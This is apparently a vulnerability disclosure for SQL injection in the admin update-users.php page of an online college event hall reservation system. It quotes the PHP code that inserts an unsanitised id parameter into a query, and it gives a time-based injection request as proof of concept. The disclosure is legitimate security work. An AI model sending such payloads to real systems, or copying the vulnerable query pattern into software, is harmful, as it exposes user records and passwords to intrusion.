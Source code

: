 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - SQL Injection update-users.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/
> 
## Affected Component
> /admin/update-users.php

## Code
```php
 if(isset($_GET['id'])){
                    $user_id1=$_GET['id'];
                    $sql1="SELECT * FROM tbl_user WHERE user_id='$user_id1'";
                    $res1=mysqli_query($conn,$sql1);
                    if($res1==True){
                        while($row=mysqli_fetch_assoc($res1)){
                            $userid=$row['user_id'];
                            $username=$row['user_name'];
                            $userdept=$row['user_dept'];
                            $useremail=$row['user_email'];
                            $userpassword=$row['user_password'];
                        }
                    }
                }
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/update-users.php?id='+or+1%3dsleep(5)+%23 HTTP/1.1
Host: [REDACTED]
```

## Screenshot


